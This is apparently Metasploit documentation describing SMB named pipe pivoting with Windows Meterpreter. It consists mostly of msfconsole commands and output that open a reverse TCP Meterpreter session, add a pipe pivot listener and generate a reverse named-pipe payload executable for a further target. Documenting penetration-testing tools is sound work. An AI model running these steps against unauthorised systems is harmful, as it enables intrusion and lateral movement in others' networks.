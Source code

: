 ## SMB Named Pipe Pivoting in Meterpreter

The Windows Meterpreter payload supports lateral movement in a network through SMB Named Pipe Pivoting. No other Meterpreters/session types support this functionality.

First open a Windows Meterpreter session to the pivot machine:

```msf
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
smsf6 payload(windows/x64/meterpreter/reverse_tcp) > set lhost 172.19.182.171
lhost => 172.19.182.171
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set lport 4578
lport => 4578
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 172.19.182.171:4578 
msf6 payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200774 bytes) to 172.19.185.34
[*] Meterpreter session 1 opened (172.19.182.171:4578 -> 172.19.185.34:49674) at 2022-06-09 13:23:03 -0500
```

Create named pipe pivot listener on the pivot machine, setting `-l` to the pivot's bind address:

```msf
msf6 payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > pivot add -t pipe -l 169.254.16.221 -n msf-pipe -a x64 -p windows
[+] Successfully created pipe pivot.
meterpreter > background
[*] Backgrounding session 1...
```

Now generate a separate payload that will connect back through the pivot machine. This payload will be executed on the final target machine.  Note there is no need to start a handler for the named pipe payload.

```msf
msf6 payload(windows/x64/meterpreter/reverse_named_pipe) > show options

Module options (payload/windows/x64/meterpreter/reverse_named_pipe):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   PIPEHOST  .                yes       Host of the pipe to connect to
   PIPENAME  msf-pipe         yes       Name of the pipe to listen on

msf6 payload(windows/x64/meterpreter/reverse_named_pipe) > set pipehost 169.254.16.221
pipehost => 169.254.16.221
msf6 payload(windows/x64/meterpreter/reverse_named_pipe) > generate -f exe -o revpipe_meterpreter_msfpipe.exe
[*] Writing 7168 bytes to revpipe_meterpreter_msfpipe.exe...
```
